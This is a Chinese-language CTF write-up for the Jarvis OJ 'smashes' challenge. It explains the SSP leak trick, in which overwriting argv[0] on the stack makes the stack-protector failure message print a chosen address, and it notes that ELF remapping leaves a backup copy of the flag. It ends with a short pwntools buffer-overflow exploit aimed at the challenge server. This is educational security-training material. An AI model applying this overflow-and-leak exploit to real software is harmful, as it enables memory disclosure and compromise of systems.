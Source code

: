 ```yaml
---
title: 'jarvis:smashes'
date: 2018-11-28 13:59:27
tags:
---
```

自己看了半天还真做不来...
两个有趣的知识点
<!--more-->

# 附件
[附件][1]
# SSP Leak
虽然是绕不过了canary但是我们可以利用__stack_chk_fail在程序结束之前输出一些东西

我们先来看看__stack_chk_fail
```c
__stack_chk_fail (void)
{
  __fortify_fail_abort (false, "stack smashing detected");
}
```
跟进__fortify_fail_abort
```c
__fortify_fail_abort (_Bool need_backtrace, const char *msg)
{
  /* The loop is added only to keep gcc happy.  Don't pass down
     __libc_argv[0] if we aren't doing backtrace since __libc_argv[0]
     may point to the corrupted stack.  */
  while (1)
    __libc_message (need_backtrace ? (do_abort | do_backtrace) : do_abort,
                    "*** %s ***: %s terminated\n",
                    msg,
                    (need_backtrace && __libc_argv[0] != NULL
                     ? __libc_argv[0] : "<unknown>"));
}
```

这里的__libc_argv[0]也就是程序名字在程序一开始的时候被设置在栈上
经过进一步研究发现他的地址也在栈上所以我们如果可以有可以覆盖到足够长的地方我们就可以用我们想泄露的地址覆盖原本的地址
那么就会在触发__stack_chk_fail同时泄露.

# ELF的重映射
有时候我们会发现memsearch的时候会有好几个备份
那可能就是elf文件内容被重映射
ELF重映射：当可执行文件足够小时，在不同的区段可能被多次映射。
使用memsearch(peda内)就可以找到备份地址

# 思路
* 这题主要是两次输入
* 第一次输入存在溢出但是我们没法获得canary，可以通过SSP LEAK来泄露
* 因为第二次我们必定会污染真正flag所以该地址处flag无法使用..通过调试我们发现了备份地址所以可以泄露备份

# exp
```python
from pwn import *
p=process("smashes")
p=remote("pwn.jarvisoj.com",9877)
p.readuntil("name? ")
payload="A".ljust(536,'\x00')+p64(0x400d20)
p.sendline(payload)
payload=''
p.sendlineafter("flag: ",payload)

p.interactive()
```




[1]:https://github.com/n132/Watermalon/tree/master/jarvis/Smashes
